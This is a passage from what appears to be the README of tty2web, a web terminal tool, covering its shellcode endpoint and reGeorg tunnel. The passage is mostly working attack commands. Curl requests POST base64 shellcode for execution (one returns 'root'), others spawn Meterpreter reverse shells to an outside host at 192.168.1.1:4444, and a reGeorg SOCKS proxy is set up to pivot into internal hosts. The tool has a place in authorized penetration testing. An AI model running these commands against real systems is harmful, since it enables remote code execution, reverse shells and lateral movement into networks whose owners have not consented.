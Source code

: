 ## SC support

Start with:
```sh
$ tty2web --sc top
```

Now, you can execute sc within POST query parameter space:

```sh
$ curl -d "base64-encoded-string-with-sc"  -ivk http://127.0.0.1:8080/sc/
root
```

or from file with POST parameter:
```sh
$ curl -d "@sc-127.0.0.1-4444.b64"  -ivk http://127.0.0.1:8080/sc/
```

spawn Meterpreter shell over tcp to 192.168.1.1:
```sh
$ curl -H 'Accept-Language: msf-tcp' 'http://127.0.0.1:8080/sc/?192.168.1.1:4444'
```

spawn Meterpreter shell over https to 192.168.1.1:
```sh
$ curl -H 'Accept-Language: msf-https' -d '192.168.1.1:4444' http://127.0.0.1:8080/sc/
```

## Regeorg support

Start with:
```sh
$ tty2web --regeorg top
```

Now, you can start regeorg proxy:

```sh
$ pip install regeorg
[..]
$ reGeorgSocksProxy.py -u http://127.0.0.1:8080/regeorg/
[..]
[INFO   ]  Starting socks server [127.0.0.1:8888], tunnel at [http://127.0.0.1:8080/regeorg]
[..]
```

Now, you can pivot using socks4/socks5 proxy available on 127.0.0.1:8888:

```sh
$ curl -x socks5://127.0.0.1:8888 http://192.168.1.96
```

## Development

You can build a binary using the following commands. There is basic Windows support, but it is limited. go1.16 or later is required.


[release]: https://github.com/kost/tty2web/releases
[license]: https://github.com/kost/tty2web/blob/master/LICENSE